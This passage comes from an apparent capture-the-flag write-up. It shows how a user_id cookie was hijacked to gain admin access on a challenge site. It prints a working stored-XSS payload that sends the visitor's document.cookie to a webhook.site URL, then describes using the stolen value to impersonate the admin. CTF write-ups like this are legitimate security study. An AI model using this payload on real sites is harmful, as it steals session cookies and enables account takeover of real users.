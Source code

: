 <center>
<img src="/image/btcp_2023/sus_1.png" width="70%" height="70%">
</center>
<p></p>
<center>
<img src="/image/btcp_2023/sus_2.png" width="70%" height="70%">
</center>

<font size="4">
  <p></p>
<p>I tried it on my another laptop and they remain the same as long as the usernames are the same. Also, I was able to move from my one account to the other simply by changing the <code>user_id</code> without logging in with the password, so it is pretty clear that <code>user_id</code> is the one that differentiates users. </p>

<p>Hence, we should figure out a way to 'hijack' the <code>user_id</code> of admin. This can be done easily with webhook (for 'eavesdropping' HTML requests) and a JS script that grabs the <code>document.cookie</code> of the visitor.</p> 

{% highlight javascript %}
<script>
    document.write(
'<img src=\"https://webhook.site/451d7d26-71ca-480a-afb0-09dd3221c6df?n='
+ document.cookie + '\"/>')
</script>
{% endhighlight %}
</font>

<center>
<img src="/image/btcp_2023/sus_3.png">
</center>

<font size="4">
<p>Then, once we give its post number (which in my case was <code>112</code>) to the admin, then upon their visit, their cookies will be transmitted to our webhook page. </p>
</font>

<center>
<img src="/image/btcp_2023/sus_4.png">
</center>

<font size="4">
<p></p>
<p>There it is! We get the new <code>user_id</code> value that definitely do not belong to us: <code> Gf%2FXmf6yVjIrb%2FYTKYXjQJ+67LLPgjtF6+S5tVXQIgo%3D2</code>. Changing our <code>user_id</code> value to that value on the developer tools gives us access to the someone else's account, and that turns out to be admin!</p>
</font>

<center>
<img src="/image/btcp_2023/sus_5.png">
</center>
